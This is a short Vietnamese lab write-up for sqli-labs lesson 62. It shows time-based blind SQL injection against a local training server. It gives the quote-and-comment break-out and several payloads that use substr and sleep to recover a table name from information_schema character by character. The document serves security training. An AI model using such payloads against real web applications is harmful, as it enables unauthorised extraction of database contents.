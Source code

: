 # Những việc làm được với lesson-62
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-62

![](../images/lesson62/screen_1.png)

TA thử như những bài trước 

![](../images/lesson62/screen.png)

Sau nhiều lần thử nghiệm thì bài này không dùng được error-base vì nó không có thông báo lỗi và cũng đã tìm được cấu trúc truy vấn của nó 

```
192.168.80.225/sqli-labs/Less-62/?id=1') --+
```

![](../images/lesson62/screen_2.png)

Ta sẽ phải dùng time-base. Để dùng time base sẽ mất rất nhiều thời gian ở đây cũng cho rất nhiều lần thử tôi sẽ thử một vài lần thôi 

```
192.168.80.225/sqli-labs/Less-62/?id=1') and if(substr((SELECT table_name from information_schema.tables where table_schema='challenges'),1,1)='Q',sleep(1),false) --+
```

![](../images/lesson62/screen_3.png)

Ta biết được chữ cái đầu tiên của nó. TƯơng tự ta sẽ biết được thêm chữ cái đến hết 

```
192.168.80.225/sqli-labs/Less-62/?id=1') and if(substr((SELECT table_name from information_schema.tables where table_schema='challenges'),1,3)='Q5D',sleep(1),false) --+
```

![](../images/lesson62/screen_4.png)

Nhưng làm thế này rất lâu và rất mất thời gian. Nhưng cách làm ở bài này là như vậy 

